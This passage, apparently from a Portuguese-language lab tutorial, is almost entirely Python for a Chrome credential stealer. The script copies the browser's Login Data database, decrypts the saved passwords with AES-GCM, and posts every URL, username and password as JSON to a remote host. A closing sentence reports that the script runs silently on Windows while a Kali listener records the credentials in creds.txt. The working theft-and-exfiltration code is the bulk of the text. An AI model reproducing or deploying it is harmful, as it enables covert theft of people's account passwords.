 ```python

# gera cifra
def gera_cifra(key, pw):
    return AES.new(key, AES.MODE_GCM, pw)

# desencripta o password com a cifra
def decrypt_payload(cifra, payload):
    return cifra.decrypt(payload)

# desencripta o password
def decrypt_pwd(password, key):
    try:
        pw = password[3:15]
        payload = password[15:]
        cifra = gera_cifra(key, pw)
        pass_decrypt = decrypt_payload(cifra, payload)
        pass_decrypt = pass_decrypt[:-16].decode()
        return pass_decrypt
    except:
        return "Chrome < 80"


key = master()
db = path + r"Default\Login Data"
# cria uma copia do db, caso o Chrome esteja aberto
shutil.copy2(db, "database.db")
connect = sqlite3.connect("database.db")
cursor = connect.cursor()

#array que guardara as credenciais
dados = []
try:
    cursor.execute("select action_url, username_value, password_value from logins")
    for i in cursor.fetchall():
        url = i[0]
        user = i[1]
        password = i[2]
        password = decrypt_pwd(password, key)
        if len(user) > 0:
            dump = {"URL": url, "User": user, "Password": password}
            dados.append(dump)
    dados = json.dumps(dados)
    r = requests.post(host, data=dados, headers=headers)
    
except Exception as e:
    pass

cursor.close()
connect.close()

# remove a copia do db
try:
    os.remove("database.db")
except Exception as e:
    pass
```
Ao executar o script do client no Windows, a conclusão é muito rápida e sem uma resposta aparente, já no Kali, vemos uma requisição POST feita, e o arquivo `creds.txt` foi gravado com todas as credenciais no formato `JSON`.

